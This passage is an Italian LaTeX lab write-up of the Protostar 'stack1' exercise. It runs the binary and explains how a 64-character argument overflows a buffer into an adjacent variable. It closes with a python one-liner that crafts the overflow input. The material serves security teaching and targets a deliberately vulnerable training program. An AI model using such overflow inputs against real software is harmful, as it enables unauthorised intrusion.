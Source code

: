 Entriamo nella cartella di lavoro e mandiamo in esecuzione il programma. Ci viene restituito un messaggio di errore poiché si aspetta un argomento da tastiera:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /opt/protostar/bin/stack1
please specify an argument
$ _
\end{lstlisting}
\end{mdframed}
Passiamogli un argomento a caso e riproviamo:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /opt/protostar/bin/stack1 abc
Try again, you got 0x00000000
$ _
\end{lstlisting}
\end{mdframed}
Il programma \texttt{stack1} accetta input locali tramite il suo primo parametro (\texttt{argv[1]}). L'input è una stringa generica e non sembrano esistere altri metodi per fornire input al programma. L'idea su cui si poggia l'attacco a \texttt{stack1} è identica a quella vista per \texttt{stack0}. Si costruisce l'input di 64 \textit{a} per riempire \texttt{buffer}, si appendono i 4 caratteri aventi codice ASCII \texttt{0x61}, \texttt{0x62}, \texttt{0x63}, \texttt{0x64} per riempire \texttt{modified}, e poi si invia l'input a \texttt{stack1}. I caratteri corrispondono a \textit{abcd}. Costruiamo la sequenza di input con python e poi vediamo l'albero di attacco:
\begin{center}
    /opt/protostar/bin/stack1
'python -c 'print "a" * 64 + "abcd"''
\end{center}

